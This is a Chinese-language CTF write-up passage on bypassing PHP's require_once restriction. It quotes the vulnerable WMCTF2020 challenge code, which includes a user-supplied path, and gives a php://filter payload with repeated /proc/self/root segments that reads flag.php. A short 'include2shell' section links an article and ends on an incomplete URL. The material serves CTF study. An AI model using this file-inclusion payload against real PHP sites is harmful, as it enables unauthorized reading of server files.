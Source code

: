 我们知道`include_once` `require_once`对于同一个文件只能包含一次，有没有办法多次包含呢？

`WMCTF2020 make php great again 2.0`这个题：

```php
<?php
require_once('flag.php');
if(isset($_GET['content'])) {
    $content = $_GET['content'];
    require_once($content);
} 
```

已经包含了`flag.php`一次了，那么就没办法继续包含它了。解题方法如下：

```
php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
```

路径中的`/proc/self/root`就表示`/` 所以`/proc/self/root/proc/self/root···`就一直表示`/`路径。至于为什么可以这样，可以看[php源码分析 require_once 绕过不能重复包含文件的限制](https://www.anquanke.com/post/id/213235)的分析。

## include2shell

具体原理及构造思路可以参考陆队的文章：[hxp CTF 2021 - The End Of LFI?](https://tttang.com/archive/1395/)

```
http://y1ng.vip/include.php?page=
```
